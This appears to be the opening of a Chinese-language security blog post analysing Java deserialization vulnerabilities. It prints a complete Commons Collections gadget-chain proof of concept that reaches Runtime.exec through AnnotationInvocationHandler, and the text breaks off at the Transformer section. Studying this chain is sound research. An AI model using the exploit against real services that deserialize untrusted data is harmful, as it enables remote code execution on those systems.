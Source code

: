 ```yaml
---
layout: post
title: "Java反序列化漏洞研究前序: Transformer、动态代理与注解"
description: "Java反序列化漏洞前序"
category: 技术
tags: [漏洞, Java]
---
```

{% include JB/setup %}


今年给自己定了一个研究清楚Java反序列化漏洞的KPI，反序列化漏洞本身原理并不复杂，但是网上的资料都不甚满意，大部分都是只是知道怎么用别人的PoC，并没有对具体的原理做深入的分析和思考，特别是Commons Collections一系列的分析，非常不满意，比如反序列化为什么需要有自己的readObject、为什么AnnotationInvocationHandler的第一个参数为Override.class和Target.class都可以。最终我决定自己深入分析各个知识点。最主要是分析动态代理和注解，但是为了完整第一部分会分析Transformer。


<h3> PoC </h3>

首先，先放上最基本的Commons Collections的PoC，如下代码会直接弹出计算器。

        public static void main(String[] args) throws Exception {
            Transformer[] transformers = {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
                    new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Class[]{Runtime.class, null}),
                    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
            };
            Transformer chain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value","test");
            Map outerMap = TransformedMap.decorate(innerMap, null, chain);

            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);

            ctor.setAccessible(true);

            Object instance = ctor.newInstance(Retention.class ,outerMap);


            //序列化
            FileOutputStream fos = new FileOutputStream("cc1");
            ObjectOutputStream oos = new ObjectOutputStream(fos);
            oos.writeObject(instance);
            oos.close();
            //反序列化
            FileInputStream fis = new FileInputStream("cc1");
            ObjectInputStream ois = new ObjectInputStream(fis);
            ois.readObject();
            ois.close();
        }

<h3> Transformer </h3>
